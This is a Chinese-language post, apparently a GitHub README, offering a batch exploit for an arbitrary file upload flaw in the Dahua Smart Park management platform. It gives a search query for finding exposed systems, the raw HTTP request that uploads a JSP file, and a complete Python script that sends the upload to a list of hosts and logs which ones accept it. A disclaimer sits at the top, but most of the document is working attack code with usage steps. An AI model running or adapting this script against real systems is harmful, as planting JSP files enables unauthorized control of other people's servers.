

# 大华智慧园区综合管理平台任意文件上传漏洞 批量检测POC

## 免责申明
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

基于已公开的poc进行编写批量检测python脚本


### 0x1 漏洞简介

大华智慧园区综合管理平台是一个集智能化、信息化、网络化、安全化为一体的智慧园区管理平台，旨在为园区提供一站式解决方案，包括安防、能源管理、环境监测、人员管理、停车管理等多个方面。
大华智慧园区综合管理平台存在在野 0day 漏洞，攻击者可以通过请求/emap/devicePoint_addImgIco接口任意上传文件，导致系统被攻击与控制。


### 0x2 测绘语法

```
app="dahua-智慧园区综合管理平台"
```


### 0x3 已公开POC

```
POST /emap/devicePoint_addImgIco?hasSubsystem=true HTTP/1.1
Content-Type: multipart/form-data; boundary=A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36 Edg/110.0.1587.69
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 243
Connection: close

--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
Content-Disposition: form-data; name="upload"; filename="1ndex.jsp"
Content-Type: application/octet-stream
Content-Transfer-Encoding: binary

123
--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT--
```


### 0x4 根据poc编写批量检测脚本

```
import argparse
import time
import requests

parser = argparse.ArgumentParser(description='大华智慧园区综合管理平台任意文件上传 批量PoC')
parser.add_argument('-f',help='Batch detection file name',type=str)
args = parser.parse_args()
file = args.f

def get_url(file):
    with open('{}'.format(file),'r',encoding='utf-8') as f:
        for i in f:
            i = i.replace('\n', '')
            send_req("http://"+i)

def write_result(content):
    f = open("result.txt", "a", encoding="UTF-8")
    f.write('{}\n'.format(content))
    f.close()


def send_req(url_check):
    print('{} runing Check'.format(url_check))
    url = url_check + '/emap/devicePoint_addImgIco?hasSubsystem=true'
    header = {
        'User-Agent':'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36 Edg/110.0.1587.69',
        'Content-Type':'multipart/form-data; boundary=A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT',
        'Accept':'text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2',
        'Connection':'close'
    }
    data = (
        "--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT\r\n"
        'Content-Disposition: form-data; name="upload"; filename="1ndex.jsp"\r\n'
        "Content-Type: application/octet-stream\r\n"
        "Content-Transfer-Encoding: binary\r\n"
        "\r\n"
        "123\r\n"
        "--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT--"
    )
    try:
        requests.packages.urllib3.disable_warnings()
        response = requests.post(url=url,headers=header,data=data,verify=False,timeout=3).json()
        if response['code'] == 1:
            result = '{} 存在任意文件上传漏洞! 请访问目标自测：{} \n'.format(url_check,
                                                            url_check + "/upload/emap/society_new/" + response['data'])
            print(result)
            write_result(result)
        time.sleep(1)
    except Exception as e:
        print(e)
        pass

if __name__ == '__main__':
    if file is None:
        print('请在当前目录下新建需要检测的url.txt')
    else:
        get_url(file)
```

### 0x5 食用方法

1、准备一个url.txt，例如：



2、执行

```
python dahua_check.py -f url.txt
```


3、检测出有任意文件上传漏洞的资产会保存在同目录result.txt文件中


4、访问一个目标测试一下是否上传成功


